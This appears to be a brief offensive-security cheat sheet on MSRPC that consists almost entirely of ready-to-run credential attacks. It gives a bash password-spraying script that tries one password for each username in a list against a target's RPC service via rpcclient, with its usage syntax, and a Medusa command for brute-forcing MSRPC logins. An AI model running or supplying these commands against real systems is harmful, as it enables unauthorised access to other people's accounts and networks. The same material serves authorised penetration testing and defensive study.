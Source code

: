 # MSRPC

## 01 - Automated Script

```bash
#!/bin/bash

for username in `cat $1`
do
    echo -n "[*] user: $username" && rpcclient -U "$username%$2" -c "getusername;quit" $3
done
```

Syntax as it follows.

```
$ chmod 755 password-spraying.sh

$ ./password-spraying.sh users.lst <password> <IP>
```

## 02 - Medusa

```
$ medusa -u <username> -p <password> -h <IP> -M msrpc
```